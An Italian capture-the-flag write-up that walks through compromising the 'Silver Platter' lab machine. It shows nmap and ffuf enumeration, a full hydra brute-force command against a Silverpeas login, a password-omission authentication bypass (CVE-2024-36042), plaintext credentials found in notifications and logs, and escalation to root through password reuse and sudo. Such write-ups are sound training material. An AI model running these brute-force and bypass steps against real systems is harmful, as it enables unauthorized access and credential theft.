Silver Platter
Iniziamo con enumerare i servizi presenti nella macchina, usando il tool nmap.
| kali@kali:~$ sudo nmap -sS -p- silver.local
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
8080/tcp open http-proxy
|
Per ognuno di questi servizi troviamo la versione
| kali@kali:~$ sudo nmap -sS -sC -sV -p22,80,8080 silver.local
ORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 b4:18:4c:c3:f5:d9:6f:7e:a8:da:2c:5b:ed:1f:2c:6c (ECDSA)
|_ 256 de:1f:6f:cf:f3:9b:06:4c:c1:87:6f:8d:98:7d:4d:30 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
8080/tcp open http-proxy
|_http-title: Error
| fingerprint-strings:
| FourOhFourRequest, GetRequest, HTTPOptions:
| HTTP/1.1 404 Not Found
| Connection: close
| Content-Length: 74
| Content-Type: text/html
| Date: Thu, 05 Nov 2026 20:38:46 GMT
| <html><head><title>Error</title></head><body>404 - Not Found</body></html>
| GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie:
| HTTP/1.1 400 Bad Request
| Content-Length: 0
|_ Connection: close
|
Abbiamo quindi tre servizi:
- SSH (port 22) versione w
- http (port 80) nginx 1.18.0, si occupa quindi di smistare le richieste
- http-proxy (port 8080) da prendere con le pinze, nmap non ha riconosciuto il servizio.
Visitando silver.local otteniamo una pagina costruita con Dimension by HTML5 UP.
Usiamo ffuf per cercare altri file/sotto directory
| kali@kali:~$ ffuf -u http://silver.local/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .txt,.md,.bak
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.3.0
LICENSE.txt [Status: 200, Size: 17128, Words: 2798, Lines: 64, Duration: 25ms]
README.txt [Status: 200, Size: 771, Words: 91, Lines: 30, Duration: 26ms]
assets [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 25ms]
images [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 26ms]
index.html [Status: 200, Size: 14124, Words: 926, Lines: 346, Duration: 32ms]
:: Progress: [19000/19000] :: Job [1/1] :: 1388 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
|
Sembra non esserci nulla di rilevante. proviamo a fare una ricerca per sub-domain:
| kali@kali:~$ ffuf -u http://silver.local -H "Host: FUZZ.silver.local" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 14124
|
Non restituisce nessun risultato.
Abbiamo anche un altro servizio http posisamo provare ad enumerare anche lì
| kali@kali:~$ ffuf -u http://silver.local:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .txt,.md,.bak
console [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 41ms]
website [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 101ms]
|
console/ fa un redirect a noredirect.html
website/ invece da errore 403: Forbidden.
Ho notato un pattern strano nella richiesta verso silver.local:8080/website infatti, usando curl e modificando l’header Host ho notato come ciò che è nell’header (cioè il suo valore) viene rispecchiato all’url a cui punta.
| kali@kali:~$ curl -i http://silver.local:8080/website -H "Host: silver.local:8080/test"
HTTP/1.1 302 Found
Connection: keep-alive
Location: http://silver.local:8080/test/website/
Content-Length: 0
Date: Fri, 06 Nov 2026 15:58:38 GMT
|
Vediamo quindi che prende il valore del header Host e ci appende /website questo website potremmo invalidarlo con un qualcosa come Host: silver.local:8080/path?0=
| kali@kali:~$ curl -i http://silver.local:8080/website -H "Host: silver.local:8080/console?0=" -L
HTTP/1.1 302 Found
Connection: keep-alive
Location: http://silver.local:8080/console?0=/website/
Content-Length: 0
Date: Fri, 06 Nov 2026 16:12:44 GMT
HTTP/1.1 302 Found
Connection: keep-alive
Location: /noredirect.html
Content-Length: 0
Date: Fri, 06 Nov 2026 16:12:44 GMT
HTTP/1.1 404 Not Found
Connection: keep-alive
Content-Length: 74
Content-Type: text/html
Date: Fri, 06 Nov 2026 16:12:44 GMT
<html><head><title>Error</title></head><body>404 - Not Found</body></html>
|
Ma probabilmente stiamo nella direzione sbagliata. riguardando il sito principale nella scheda contact notiamo un nickname: scr1ptkiddy dove viene detto di contattarlo su silverpeas , supponendo silverpeas sia propriosilver.local:8080 proviamo a raggiungere http://silver.local:8080/silverpeas con un ottimo risultato!

Ora sappiamo che, l’utente si chiama scr1ptkiddy ma non conosciamo la password, leggendo la guida della CTF viene espressamente detto che la password non è in rockyou.txt quindi probabilmente dobbiamo costruire un dizionario custom. Creo quindi partendo dalla pagina iniziale silver.local:80 usando il tool cewl un dizionario di possibili password.
| kali@kali:~/Desktop/CTF/SilverPlatter$ cewl http://silver.local -d 3 -m 4 -w wordlist1.txt --with-numbers
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
kali@kali:~/Desktop/CTF/SilverPlatter$ cat wordlist1.txt
Item
Security
Hack
Smarter
Default
this
adipiscing
aliquet
[....]
|
Ed eseguo il bruteforce sulla pagina
| kali@kali:~/Desktop/CTF/SilverPlatter$ hydra -l "scr1ptkiddy" -P wordlist1.txt silver.local http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:F=incorrect" -t 4 -w 5 -s 8080 -I
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-06 11:53:42
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 311 login tries (l:1/p:311), ~78 tries per task
[DATA] attacking http-post-form://silver.local:8080/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:F=incorrect
[8080][http-post-form] host: silver.local login: scr1ptkiddy password: adipiscing
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-06 11:53:49
|
La password è adipiscing

Sono dentro il portale di Silverpeas un progetto OpenSource scritto in java per creare una intranet aziendale

Altro utente da segnare: Tyler

Informazioni (forse) rilevanti dell’utente scr1ptkiddy.
L’utente scr1ptkiddy è un manager, lo possiamo capire aprendo la sezione My Documents

Da questa pagina possiamo caricare documenti che una volta aperti vengono gestiti dal server.

Possiamo provare a caricare un payload in Java essendo Silverpeas basato su Java EE/JEE. No scherzone, non viene eseguito nessun codice…


Cercando su internet ho scoperto di una vulnerabilità assolutamente stupida di Silverpeas, etichettata come CVE-2024-36042 tale vulnerabilità permette, togliendo dalla richiesta di login il campo Password di loggarsi come qualsiasi utente. Sapendo questo, possiamo autenticarci come silveradmin@localhost
Prima:

Dopo


Ho trovato un’altra falla pericolossissima tant’è che ha come score CVSS 9.9 stiamo parlando della CVE-2018-19586 che permette a un utente, manipolandno l’header X-FULL-PATH, a un utente standard di caricare un file .jsp malevolo. Ma non sembra andare… molto probabilmente non è la strada giusta.
Ritornando all’utente Administrator (SilverAdmin) guardando le sue notifiche in outbox, notiamo delle credenziali SSH
| Username: tim
Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
|
Arrivati a questo punto possiamo facilmente accedere in SSH
| tim@ip-10-129-174-38:~$ whoami
tim
|
Usa un kernel abbastanza vecchio Linux 5.15
E otteniamo al prima flag
| tim@ip-10-129-174-38:~$ cat user.txt
THM{c4ca42************************}
|
ora dobbiamo escalare i nostri privilegi a root.
L’utente tim fa parte di due gruppi tim e adm
Usando ps auxww è possibile vedere che i webserver sono avviati come utente root quindi, ogni operazione fatta è eseguita come root, se riuscissimo a instauare una reverse shell, otterremo subito i permessi di root.
| root 1210 0.0 0.0 1155572 3216 ? Sl 15:50 0:00 /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 8080 -container-ip 172.17.0.3 -container-port 8000
|
Se riuscissimo ad accedere all’account SSH di tyler avremmo molti più permessi essendo in molti più gruppi: tyler : tyler adm cdrom sudo dip plugdev lxd
Sapendo che l’utente ha i permessi adm possiamo leggere i log in /var/log. usando un comando che cerca la parola PASSWORD in tutti i file di log possiamo ottenere i dati del DB
| /var/log/auth.log.2:118:Dec 13 15:45:57 silver-platter sudo: tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=**Silverpeas** -e DB_USER=**silverpeas** -e DB_PASSWORD=**_Zd_zx7N823/** -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:6.3.1
|
sembra però accessibile solo dalla macchina docker stessa e non dall’host.
Notiamo anche questo log
| /var/log/installer/autoinstall-user-data:29: password: $6$uJuA1kpnd4kTFniw$/402iWwKzcYD8AMHG6bY/PXwZWOkrrVmtoO7qQpfvVLh1CHmiKUodwMGP7/awDYtrzpDHV8cNbpS1HJ6VMakN.
|
Utilizzando la password del DB trovate possiamo loggarci come tyler in SSH
| tyler@ip-10-128-178-162:~$ sudo -l
[sudo] password for tyler:
Matching Defaults entries for tyler on ip-10-128-178-162:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User tyler may run the following commands on ip-10-128-178-162:
(ALL : ALL) ALL
|
dove possiamo eseguire qualsiasi comando come sudo
| tyler@ip-10-128-178-162:~$ sudo -u root sudo su
root@ip-10-128-178-162:/home/tyler#
|
E siamo diventati root
| root@ip-10-128-178-162:/home/tyler# cd /root/
root@ip-10-128-178-162:~# ls
root.txt snap start_docker_containers.sh
root@ip-10-128-178-162:~# cat root.txt
THM{098f6b**************************}
root@ip-10-128-178-162:~#
|
Non ha avuto senso che la password di tyler era la stessa del database in che modo ci sarei dovuto arrivare? No sense!
Lezione imparata: quando si recuperano credenziali in chiaro da file di configurazione o log, non bisogna limitarne l'utilizzo al servizio a cui appartengono. È sempre opportuno verificare eventuali casi di password reuse sugli account applicativi e di sistema, prima di investire tempo nel cracking di hash.